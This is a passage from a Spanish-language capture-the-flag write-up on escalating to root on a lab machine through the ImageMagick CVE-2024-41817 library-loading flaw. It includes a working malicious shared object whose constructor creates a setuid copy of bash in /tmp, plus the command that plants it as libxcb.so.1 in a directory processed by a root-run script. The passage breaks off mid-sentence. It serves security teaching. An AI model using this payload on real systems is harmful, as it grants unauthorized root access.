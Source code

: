 El propietario es `root`, lo que confirma nuestra sospecha.

Viendo que la versión de ImageMagick es la `7.1.1-35`, podriamos buscar vulnerabilidades de la misma a ver si encontramos algo interesante. En eso hallaremos a `CVE-2024-41817`, que se trata de un error de lógica en la versión del software compilada en AppImage; Al quedar las variables de entorno `MAGICK_CONFIGURE_PATH` y `LD_LIBRARY_PATH` vacías por lo dicho previamente, el mismo software puede intentar utilizar el directorio actual como un lugar para buscar por librerías dinámicas o archivos de configuración. Y de hecho el `buildID` del binario en la máquina es idéntico al del que se utiliza para el desarrollo del PoC del advisory:

```bash
❯ curl -fL https://github.com/ImageMagick/ImageMagick/releases/download/7.1.1-35/ImageMagick-d775d2a-gcc-x86_64.AppImage -o magick && chmod +x magick
❯ file magick 
magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped

----
developer@titanic:/opt/app/static/assets/images$ file /usr/bin/magick
/usr/bin/magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped
```

Sabiendo que en efecto, esto es vulnerable, podemos proceder a crearnos un shared object malicioso con el propio código que es proporcionado en el PoC y almacenarlo dentro del directorio en el que script está procesando las imágenes:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/uwu && chmod u+s /tmp/uwu");
    exit(0);
}
```
{: file="uwu.c" }

```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> 
> __attribute__((constructor)) void init(){
>     system("cp /bin/bash /tmp/uwu && chmod u+s /tmp/uwu");
>     exit(0);
> }
> EOF
```

Luego de un ratito, veremos que:
